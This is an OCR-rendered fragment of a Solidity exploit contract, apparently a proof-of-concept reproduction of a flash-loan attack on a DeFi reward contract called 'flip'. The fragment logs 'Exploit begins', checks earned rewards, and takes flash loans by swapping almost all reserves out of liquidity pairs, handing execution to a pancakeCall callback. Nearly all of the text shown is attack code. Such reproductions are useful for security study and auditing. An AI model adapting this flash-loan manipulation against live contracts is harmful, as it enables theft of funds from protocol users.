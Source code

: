 │         require(success, "flip.harvest() fails");                                                                                                                                                                                                    │
│                                                                                                                                                                                                                                                      │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                      │
│         trigger();                                                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function trigger() public {                                                                                                                                                                                                                      │
│         if (flip.earned(address(this)) > 0) {                                                                                                                                                                                                        │
│             //Initiate flashloans                                                                                                                                                                                                                    │
│             emit log_string("Initiate flashloans...");                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│             (uint256 _amount0, uint256 _amount1, ) = pairs[0].getReserves();                                                                                                                                                                         │
│             if (WBNB == pairs[0].token1()) {                                                                                                                                                                                                         │
│                 pairs[0].swap(0, _amount1 - 1, address(this), abi.encode(0, 1));                                                                                                                                                                     │
│             } else {                                                                                                                                                                                                                                 │
│                 pairs[0].swap(_amount0 - 1, 0, address(this), abi.encode(0, 0));                                                                                                                                                                     │
│             }                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│             // execution passes to pancakeCall()                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│             // all flashloans have been repaid!                                                                                                                                                                                                      │